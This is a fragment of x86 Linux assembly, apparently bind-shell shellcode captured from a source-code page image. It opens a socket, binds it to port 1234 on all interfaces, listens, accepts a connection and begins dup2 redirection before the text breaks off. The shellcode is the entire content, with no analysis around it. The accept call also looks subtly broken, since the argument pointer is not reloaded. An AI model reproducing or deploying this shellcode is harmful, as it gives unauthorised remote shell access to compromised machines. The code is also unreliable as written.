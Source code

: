 ```  
  
xor ecx, ecx  
push ecx ; protocol -> 0  
push 1 ; SOCK_STREAM  
push 2; AF_INET  
mov ecx, esp  
  
int 0x80  
  
mov edx, eax  
  
; socketcall(SYS_BIND, *args)  
; bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen)  
xor eax, eax  
xor ebx, ebx  
mov al, 0x66  
mov bl, 2 ; bind  
  
; build sockaddr_in  
xor ecx, ecx  
push ecx ; ADDR_ANY  
push word 0xD204 ; port 1234 little endian  
push word 2 ; AF_INET  
mov ecx, esp  
  
push 16; socklen_t addrlen  
push ecx; sockaddr *addr  
push edx ; sockfd  
  
mov ecx, esp  
int 0x80  
  
  
;sys_listen  
;int listen(int sockfd, int backlog);  
xor eax, eax  
  
push eax ; backlog -> 0  
push edx ; sockfd -> saved sockfd  
mov al, 0x66  
mov bl, 4  
mov ecx, esp  
int 0x80  
  
; accept(3, 0, 0)  
xor eax, eax  
xor ebx, ebx  
push eax  
push eax  
push edx  
  
mov al, 0x66  
mov bl, 5  
int 0x80  
  
mov edx, eax ; save accept sockfd  
  
; dup2  
xor eax,eax  
xor ecx, ecx  
  
mov al, 63  
mov ebx, edx  
```